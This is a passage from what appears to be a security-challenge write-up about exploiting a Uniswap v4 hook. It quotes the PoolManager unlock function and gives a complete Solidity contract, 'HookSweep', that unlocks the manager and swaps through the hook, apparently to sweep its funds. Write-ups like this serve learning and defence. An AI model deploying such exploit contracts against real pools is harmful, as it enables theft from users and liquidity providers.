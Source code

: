 This check will fail, unless we can unlock the contract, with the `unlock` function:
```solidity
function unlock(bytes calldata data) external override returns (bytes memory result) {
    if (Lock.isUnlocked()) AlreadyUnlocked.selector.revertWith();

    Lock.unlock();

    // the caller does everything in this callback, including paying what they owe via calls to settle
    result = IUnlockCallback(msg.sender).unlockCallback(data);

    if (NonzeroDeltaCount.read() != 0) CurrencyNotSettled.selector.revertWith();
    Lock.lock();
}
```
More about this can be found [here](https://docs.uniswap.org/contracts/v4/guides/unlock-callback).

As we can see, this will unlock the contract for only one transaction, and needs to call a callback function on `msg.sender`. This means that we cannot execute the swap from an EOA, but will have to do it through a contract.

Since we have all the data we need for the swap, we can code the contract:
```solidity
// src/HookSweep.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import {Hooks} from "v4-core/src/libraries/Hooks.sol";
import {IPoolManager} from "v4-core/src/interfaces/IPoolManager.sol";
import {PoolKey} from "v4-core/src/types/PoolKey.sol";
import {Currency} from "v4-core/src/types/Currency.sol";
import {Hook} from "src/Hook.sol";

contract HookSweep {
    address hook = 0x7400872EE85d4546F9CB4Fa776c43B5E0c78C0C0;
    address manager = 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512;
    address token = 0x75537828f2ce51be7289709686A69CbFDbB714F1;

    constructor(address _hook, address _manager, address _token) {
        hook = _hook;
        manager = _manager;
        token = _token;
    }

    function swap() external {
        IPoolManager(manager).unlock("");
    }

    function unlockCallback(bytes calldata) external returns (bytes memory) {
        PoolKey memory pool = PoolKey({
            currency0: Currency.wrap(address(0)),
            currency1: Currency.wrap(token),
            fee: 0,
            tickSpacing: 10,
            hooks: Hook(hook)
        });
        IPoolManager(manager).swap(
            pool, IPoolManager.SwapParams(true, -1001 ether, type(uint96).max), abi.encode(tx.origin)
        );
        return "";
    }
}
```

